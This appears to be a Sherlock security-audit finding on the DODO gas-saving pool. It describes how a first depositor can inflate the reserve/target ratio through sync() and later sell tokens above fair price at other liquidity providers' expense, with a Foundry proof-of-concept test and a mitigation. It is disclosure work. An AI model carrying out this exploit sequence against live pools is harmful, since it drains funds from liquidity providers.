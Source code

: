 Upbeat Lava Tortoise

high

# Initial depositor can alter the reserve-target ratio to trade subsequent depositors tokens at lower prices

## Summary
First depositor increasing the reserve/target ratio using `sync()` allows trading a token at a higher price than actual. This can be used to trade the second depositors asset's at a lower price. 

## Vulnerability Detail
When `r_state` is `above_one`, the next base target calculation involves the current quote token delta (current quote reserve - current quote target). The base target is calculated such that it will be reached when the enitre current quote delta is bought. Till this new base target is reached, the price of the base token will be higher than the fair price i. Vice versa is true when `r_state` is `below_one`.
```solidity
    function adjustedTarget(PMMState memory state) internal pure {
        ....
        } else if (state.R == RState.ABOVE_ONE) {
            state.B0 = DODOMath._SolveQuadraticFunctionForTarget(
                state.B,
                state.Q - state.Q0,
                DecimalMath.reciprocalFloor(state.i),
                state.K
            );
        }
    }
```

The initial depositor can inflate the value of a share without any value loss by donating token amounts and calling the sync function. This also doesn't change the Target values. 
```solidity
    function _sync() internal {

        uint256 baseBalance = _BASE_TOKEN_.balanceOf(address(this)) - uint256(_MT_FEE_BASE_);
        uint256 quoteBalance = _QUOTE_TOKEN_.balanceOf(address(this)) - uint256(_MT_FEE_QUOTE_);
    
        .....
    
        if (baseBalance != _BASE_RESERVE_) {
            _BASE_RESERVE_ = uint112(baseBalance);
        }
        if (quoteBalance != _QUOTE_RESERVE_) {
            _QUOTE_RESERVE_ = uint112(quoteBalance);
        }
        
        .....
    }
```

Following the second user's deposit (in correct ratio ie. fair price ratio), the initial depositor can perform the following steps to sell base token at a higher price(vice versa for quote token):

1. Sell 0 amount of quote token. This will make r_state == above_one
2. Next sell base. For this sell, the quadratic target calculation of base target will use (quote reserve - quote target == quote reserve) as delta. This will cause the ratio of (base target / base reserve) to be bigger than actual.

Amount earnable couldn't be quantified due to time constraint but increases with k. With k == 0.0005 (used in test file), sell price in obtained was 1.0005 (fair price == 1) and with k == 0.05 it increased to 1.05

### POC Code
Add the following test to test/GPSTrader.t.sol after importing DODOMath and run `forge test --mt testHash_reserveTargetRatioIncrease`
```solidity
    import {DODOMath} from "../contracts/lib/DODOMath.sol";

    function testHash_reserveTargetRatioIncrease() public {
        GSP gspTest = new GSP();
        gspTest.init(
            MAINTAINER,
            address(mockBaseToken),
            address(mockQuoteToken),
            0,
            0,
            1e18,
            500000000000000,
            false
        );
        
        address attacker = address(123);
        mockBaseToken.mint(attacker,type(uint).max);
        mockQuoteToken.mint(attacker,type(uint).max);

        vm.startPrank(attacker);
        mockBaseToken.transfer(address(gspTest), 2000);
        mockQuoteToken.transfer(address(gspTest), 2000);

        // mint low amount of shares
        gspTest.buyShares(attacker);
        mockBaseToken.transfer(address(gspTest), 1e18 - 2000);
        mockQuoteToken.transfer(address(gspTest), 1e18 -2000);
        gspTest.sync();
        
        vm.stopPrank();

        // now reserve to target ratio is 5e14
        // next buy shares of user will keep this ratio

        address user = address(1234);
        mockBaseToken.mint(user,type(uint).max);
        mockQuoteToken.mint(user,type(uint).max);

        vm.startPrank(user);
        mockBaseToken.transfer(address(gspTest), 1e18);
        mockQuoteToken.transfer(address(gspTest), 1e18);

        gspTest.buyShares(user);
        
        vm.stopPrank();
        assert(gspTest._QUOTE_TARGET_() == 4000);
        assert(gspTest._BASE_TARGET_() == 4000);

        // now the attacker can make use of the large (reserve - target) to trade at a higher price
        vm.startPrank(attacker);

        // first call sellquotetoken to make r above one
        gspTest.sellQuote(attacker);
        // the calculated base target will be higher as the required amount to reach equillibrium for quote asset is 2e18 - 4000. Hence the attacker can sellBase at a price > 1 and obtain 2e18-4000 quoteTokens
        address receiver = address(12345);
        uint newTargetBaseAmount = DODOMath._SolveQuadraticFunctionForTarget(2e18,2e18 - 4000,1e18,
            500000000000000);
        uint sellAmount = newTargetBaseAmount - 2e18;
        mockBaseToken.transfer(address(gspTest),sellAmount);
        uint receivedAmount = gspTest.sellBase(receiver);
        
        uint sellPrice  = receivedAmount * 1e18 / sellAmount;
        assert(sellPrice > 1e18); // (1000499750249688627 ie. 1.0005)
    }
```

## Impact
First depositor can trade at an higher price at loss for second / subsequent LP's.

## Code Snippet
`sync` function callable by first depositor to increase share price
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPVault.sol#L118-L132

next depositor is minted higher valued share(hence low amount) and scales the target by the same amount
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L67-L75

## Tool used
Manual Review

## Recommendation
Allow the depositor to provide a `minShares` amount either in this contract or in router. This way the share value manipulation can be identified.